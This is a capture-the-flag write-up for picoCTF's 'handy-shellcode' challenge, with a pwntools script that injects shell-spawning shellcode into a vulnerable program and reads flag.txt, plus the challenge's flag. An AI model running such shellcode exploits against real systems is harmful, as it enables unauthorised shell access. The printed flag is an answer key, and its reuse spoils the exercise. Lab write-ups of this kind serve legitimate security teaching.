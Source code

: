 # handy-shellcode

Points: 50

## Problem
> This [program](vuln) executes any shellcode that you give it. Can you spawn a shell and use that to read the flag.txt? You can find the program in /problems/handy-shellcode_5_d1b3658f284f442eac06607b8ac4d1f5 on the shell server. [Source](vuln.c).

## Hints
> You might be able to find some good shellcode online.

## Solution

Using a shellcode from Python's `pwntools` library, we get the flag with the following script:

```python
#!/usr/bin/env python3

from pwn import *
import re

# connect to the vuln binary
sh = process("./vuln")

# actual shellcode
shellcode = asm(shellcraft.i386.linux.sh())

# send the shellcode
sh.sendlineafter(":\n", shellcode)

# get the content of flag.txt
sh.sendline("cat flag.txt")
sh.recv()

# extract the flag from the response using regex
print(re.findall("picoCTF{.*}", str(sh.recv()))[0])
```

## Flag

`picoCTF{h4ndY_d4ndY_sh311c0d3_0b440487}`